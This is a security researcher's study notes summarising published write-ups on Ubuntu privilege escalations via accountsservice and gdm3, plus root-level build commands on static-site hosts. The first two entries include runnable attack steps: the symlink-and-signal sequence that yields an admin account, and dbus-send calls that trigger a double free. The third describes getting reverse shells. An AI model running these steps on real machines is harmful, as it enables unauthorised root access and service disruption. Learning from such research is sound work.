

# Summary 

One thing I've noticed about reading CVE reports and writeups is that I get the thrill of learning once I've read through and (hopefully) understood the vulnerability, but in a few months or even in a few weeks I'll forget 80% of the content. Sometimes I even re-read reports because I forgot that I already read them. So as a simple memo and also an exercise to keep me reading new research, I've decided to do a little summary of the stuff I read so I can keep track and have some reference later on. Like a book review, sort of.

Here's to define the format:
Title: \[category\] Title of blog/research
* CVE
* author(s) or org
* link to resource(s)
* category(s), e.g privesc, webapp, android...
* keywords

Description of vuln, technical details worth noting, lessons learned, questions or extended research, link to other notes, etc


## \[Privesc\] How to get root on Ubuntu 20.04 by pretending nobody’s /home

* CVE: CVE-2020-16126, CVE-2020-16127, CVE-2020-16125
* Author: Kevin Backhouse of the GitHub Security Lab
* [How to get root on Ubuntu 20.04 by pretending nobody’s /home](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE/)
* Categories: Privesc, Linux
* Keywords: pam_environment, Ubuntu GNOME Display Manager (gdm3), accountsservice, D-Bus

### Description

The privesc technique chains 2 bugs: the first a DoS bug to crash the accountsservice daemon, and the second a design flaw that causes the dependent gdm3 to create a n admin account when the accountsservice daemon is unresponsive.

#### The accountsservice daemon bug

The accountsservice daemon manages user accounts and also allows you to change your settings, such as your icon or preferred language. Messages are sent via D-Bus between the graphic dialog box and the accountsservice daemon. When a config file, `~/.pam_environment` is found for a user, Ubuntu's accountsservice daemon (which is different from the upstream maintained version) reads it. We can **symlink this file to `/dev/zero`** to trigger the DoS since `/dev/zero` is logically an infinitely long file with `\x00`.

We can then crash the unresponsive accountsservice daemon by sending a SIGSEGV signal. This is possible because the accountsservice daemon drops privs before reading `.pam_environment` which is a protection against low-priv users trying to read high-priv files like `/etc/shadow`.

#### The gdm3 privesc bug

There is an operation called `gnome-initial-setup` which is triggered when gdm3 detects that there are zero users on the system, or in other words, this is a fresh installation of Ubuntu. The `gnome-initial-setup` process creates an admin account so you can then perform other setup. The problem is: **gdm3 queries the accountsservice daemon for the number of user accounts**, and when the accountsservice daemon is unresponsive, gdm3 by default believes that there are 0 users, and triggers `gnome-initial-setup`.

Quoting the blog:

> You tricked gdm into launching gnome-initial-setup, I reckon, which maybe happens if a gdm session can’t verify that an account already exists.

### Exploit

**Limitations: You need graphical session on machine!**

```bash
# symlink .pam_environment to /dev/zero to trigger DoS
ln -s /dev/zero .pam_environment

# open "Region & Language" in system settings and change language, ignore the freeze

# delete symlink
rm .pam_environment

# kill process
pidof accounts-daemon
kill -SIGSTOP 597   # change to pid

# need to log out to trigger, but set timer to restart accountsservice daemon
nohup bash -c "sleep 30s; kill -SIGSEGV 597; kill -SIGCONT 597"

# logout and wait for prompt to create admin account!
```

### Takeaways and Notes
* DoS bugs might be categorized as trivial, but its importantance may sky-rocket if other applications are dependent on it. Maybe try to research how past DoS bugs might be chained with quirky behavior?
* polkit is often used to check if a client is authorized to request an action -> find more info on this?

## \[Privesc\] Getting root on Ubuntu through wishful thinking

* CVE: CVE-2021-3939
* Author: Kevin Backhouse of the GitHub Security Lab
* [Getting root on Ubuntu through wishful thinking](https://securitylab.github.com/research/ubuntu-accountsservice-CVE-2021-3939/)
* Categories: Privesc, Linux
* Keywords: double free, UAF, accountsservice, polkit

### Description

#### Double free in accountsservice

A pointer, `system_formats_locale`, is allocated as **static** and returned to caller, so there is only one instance and the caller should not free it. However, in one of the functions it's called and assigned to `g_autofree`, which means it gets freed when execution exits current scope! This is usually okay because code looks into `.pam_environment` for backup values, so we can trigger double free by deleting `.pam_environment`!

```bash
rm -f ~/.pam_environment
dbus-send --system --print-reply --dest=org.freedesktop.Accounts /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetLanguage string:hi
```

So now a dangling pointer is in `system_formats_locale` while other parts of code can write the chunk. 

### Exploit

Problems:
* chunk size only `0x20`
* bypass ASLR randomness

Author observed that the chunk is often captured by the `user_save_to_keyfile()` function. Why not use this alloc dealloc to jumble up memory and increase chances of another useful target allocating the chunk? We can keep crashing and restarting accountsservice as a low-priv user by changing email:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetEmail string:'kev@example.com'
```

Due to small chunk size, we need to find something interesting that can happen when data is overwritten, such as changing the current user's username to root. The final target is `CheckAuthData`, which is used to **store a closure that will be called after the polkit request is approved**. Since method call is async, we want to trigger double free between a low-priv request and high-priv request so that the high-priv function pointer overwrites the low-priv one while the low-priv request gets approved.

Drew a diagram to illustrate the flow:



Unfortunately, the `CheckAuthData` in accountsservice is `0x40`, so the mismatch would've ruined the exploit. HOWEVER, it actually worked, because there's also a `CheckAuthData` struct in the **polkit client-side library** which does exactly the same thing, but is small enough for `0x20`! The exploit flow is mostly the same, except the double free corrupts the chunk used by polkit!

### Takeaways and Notes
* Textbook UAF taught us to write chunk with shellcode or ROP chain, leak addrs, then jump over, but sometimes it's more useful to see where the chunk might get allocated and what data you can overwrite! Privesc doesn't always need revshell
* Can do a bit of research on possible exploitable type combinations in different languages, e.g `static` and `g_autofree` variables


## \[RCE\] 静态站点托管平台仅能托管静态资源？

* CVE: N/A
* Author: zjun
* [静态站点托管平台仅能托管静态资源？](https://tttang.com/archive/1501/)
* Categories: RCE, Cloud
* Keywords: container security, static site generator

### Description

Several cloud hosting services support various static site generation frameworks, which often allow us to build and run with custom commands. Though such commands should always be executed in a low-privileged restricted container, cloud services are too commmonly misconfigured. In this post, the author explores several platforms, including 4everland, vercel, and netlify. A friend also discovered that Cloudflare has the same vulnerability.

### Exploit

4everland, an IPFS build on web3, runs on AliCloud and executes commands as **root**, but the site has protections in place to restrict available commands and container escape. The author did not successfully pop a reverse shell.

Vercel, similar to GitHub pages, runs on AWS and also executes commands as **root**, but allows much more commands. The author can pop a reverse shell by installing `nc` with yum or via python. The downside is that the job timeouts after 45 minutes, so it's harder to obtain persistent access.

Netlify, also similar to GitHub pages, runs on AWS, but executes commands as a low-priv user `buildbot`. We can't install packages without root privileges, so this case isn't of much use.

Our friend was using Cloudflare and found the same issue. Commands are run as **root** but timeouts pretty quickly, and the platforms become unusable for a while. The kernel version is out of date so there probably are kernel weaknesses that we can exploit to escalate privileges or escape the container, but we haven't confirmed this.

In all, unless we can escape the container or laterally move to other machines, this weakness isn't too valuable. If you just want to use free containers though, it's a nice feature ;D